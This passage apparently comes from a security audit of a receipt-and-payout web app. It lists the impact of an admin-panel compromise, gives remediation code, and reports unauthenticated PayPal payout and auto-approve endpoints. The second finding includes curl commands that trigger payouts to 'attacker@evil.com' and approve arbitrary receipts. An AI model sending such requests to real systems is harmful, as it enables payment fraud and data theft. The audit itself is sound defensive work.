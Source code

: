 **Impact:**
- Complete admin panel compromise
- Unauthorized approval of fraudulent receipts
- Manual triggering of PayPal payouts to attacker's account
- Access to all receipt/user data (PII breach)

**Remediation:**
```javascript
// 1. Use bcrypt for password hashing
import bcrypt from 'bcrypt';
const ADMIN_PASSWORD_HASH = process.env.ADMIN_PASSWORD_HASH; // Store hash in ENV

// 2. Add rate limiting to auth endpoint
import { Ratelimit } from '@upstash/ratelimit';
const ratelimit = new Ratelimit({
  redis: Redis.fromEnv(),
  limiter: Ratelimit.slidingWindow(5, '15m'), // 5 attempts per 15 min
});

// 3. Use constant-time comparison
const validPassword = await bcrypt.compare(password, ADMIN_PASSWORD_HASH);

// 4. Sign session tokens with HMAC/JWT
import jwt from 'jsonwebtoken';
const sessionToken = jwt.sign(
  { authenticated: true, timestamp: Date.now() },
  process.env.JWT_SECRET,
  { expiresIn: '24h' }
);

// 5. Add failed attempt tracking & logging
// 6. Implement account lockout (10 failed attempts = 1 hour lockout)
```

---

### 2. Admin API Endpoints - No Authorization Check

**Severity:** CRITICAL
**Files:** `app/api/paypal-payout/route.ts`, `app/api/auto-approve-receipt/route.ts`
**CVSS Score:** 10.0/10

**Issue:**
- PayPal payout endpoint has **ZERO authentication checks**
- Auto-approval endpoint has **ZERO authentication checks**
- **Anyone** can call these endpoints directly with any receipt ID

**Attack Vector:**
```bash
# Attacker can trigger unlimited payouts to their own PayPal
curl -X POST https://burnthatad.com/api/paypal-payout \
  -H "Content-Type: application/json" \
  -d '{
    "receiptId": "any-approved-receipt-id",
    "paypalEmail": "attacker@evil.com",
    "amount": 10000
  }'

# Or auto-approve any pending receipt
curl -X POST https://burnthatad.com/api/auto-approve-receipt \
  -H "Content-Type: application/json" \
  -d '{"receiptId": "pending-id", "validationData": {...}}'
```
